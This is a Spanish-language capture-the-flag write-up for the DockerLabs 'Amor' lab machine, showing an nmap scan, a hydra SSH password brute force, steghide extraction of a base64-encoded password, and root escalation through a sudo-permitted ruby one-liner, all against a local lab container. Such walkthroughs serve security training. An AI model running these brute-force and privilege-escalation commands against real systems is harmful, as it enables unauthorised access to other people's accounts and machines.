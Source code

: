 # Máquina Amor

## Reconocimiento 

Primero realizamos un escaner **nmap** para descubrir los puertos abiertos de la máquina objetivo.

```shell
# Nmap 7.94SVN scan initiated Thu Jun 20 16:43:49 2024 as: nmap -p- -sC -sV -sS --min-rate 5000 -n -Pn -oN nmap 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.0000020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
|_  256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: SecurSEC S.L
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 20 16:43:55 2024 -- 1 IP address (1 host up) scanned in 6.82 seconds
```

Vemos que tiene el puerto 80 abierto, asi que procedemos a investigarlo. Y vemos que ha habido problemas en la seguridad debido a 
una contraseña fácil.

![image](https://github.com/miiguelpalaces/DockerLabs/assets/129620259/c17aaa47-c15a-46aa-b9b7-5421abe01730)

## Explotación

Por lo que realizamos un ataque hydra a los usuarios buscando la contraseña.

```shell
┌──(miguel㉿miguel)-[~/Desktop/machines/Dockerlabs/amor]
└─$ hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64
```

Y obtenemos la siguiente brecha **carlota:babygirl**. Por lo que realizamos una conexión ssh, porque también estaba abierto el puerto 22.

```shell
┌──(miguel㉿miguel)-[~/Desktop/machines/Dockerlabs/amor]
└─$ ssh carlota@172.17.0.2                                                     
carlota@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.5.0-kali3-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu Jun 20 15:29:25 2024 from 172.17.0.1
$ bash
carlota@7529c9daea54:~$ 
```

Navegando por la máquina descubrimos una imagen en uno de los directorios de **carlota**

```shell
carlota@7529c9daea54:~/Desktop/fotos/vacaciones$ ls
imagen.jpg
```

Procedemos a obtenerla desde nuestra máquina atacante a partir del siguiente comando.

```shell
┌──(miguel㉿miguel)-[~/Desktop/machines/Dockerlabs/amor]
└─$ scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/miguel/Desktop/machines/Dockerlabs/amor 
carlota@172.17.0.2's password: 
imagen.jpg                                                                        100%   51KB  23.8MB/s   00:00  
```

Y buscamos información dentro de la imagen a partir de la herramienta **steghide**

```shell
┌──(miguel㉿miguel)-[~/Desktop/machines/Dockerlabs/amor]
└─$ steghide --extract -sf imagen.jpg 
```

Importa el resultado a un archivo **secret.txt** y al imprimirlo obtenemos una contraseña en lo que parece base 64.
Por lo que la descodificamos obteniendo la siguiente contraseña.

```shell
┌──(miguel㉿miguel)-[~/Desktop/machines/Dockerlabs/amor]
└─$ echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo 
eslacasadepinypon
```
Ahora desde el user **carlota** nos cambiamos al user **oscar** usando la contraseña anterior.

```shell
carlota@7529c9daea54:~/Desktop/fotos/vacaciones$ su oscar
Password: 
$ whoami
oscar
```

## Escalada de privilegios 

Procedemos a buscar una brecha para escalar privilegios hasta **root**.

```shell
oscar@7529c9daea54:/home/carlota/Desktop/fotos/vacaciones$ sudo -l
Matching Defaults entries for oscar on 7529c9daea54:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User oscar may run the following commands on 7529c9daea54:
    (ALL) NOPASSWD: /usr/bin/ruby
```
Buscando en la página Gtfobins obtenemos la siguiente posibilidad.

```shell
oscar@7529c9daea54:/home/carlota/Desktop/fotos/vacaciones$ sudo /usr/bin/ruby -e 'exec "/bin/sh"'
# whoami
root
```















